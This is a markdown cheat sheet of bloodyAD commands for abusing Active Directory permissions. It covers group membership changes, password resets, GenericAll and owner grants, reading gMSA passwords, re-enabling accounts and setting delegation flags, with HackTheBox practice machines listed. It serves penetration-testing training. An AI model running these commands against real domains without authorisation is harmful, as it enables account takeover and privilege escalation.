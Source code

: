 ### Retrieve User Information
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
### Add User To Group
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
### Change Password
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
### Give User GenericAll Rights
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
### WriteOwner
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
### ReadGMSAPassword
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
### Enable a Disabled Account
```bash
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
### Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
### Notes
- To use Kerberos, obtain a TGT and then pass `-k` instead of providing a username and password
- You can pass a hash instead of the password
### Resources
- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://www.thehacker.recipes/
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
### Machines To Practice
- Redelegate (Vulnlab)
- Vintage (HackTheBox)
- Infiltrator (HackTheBox)
- Rebound (HackTheBox)
- Absolute (HackTheBox)
- Certified (HackTheBox)
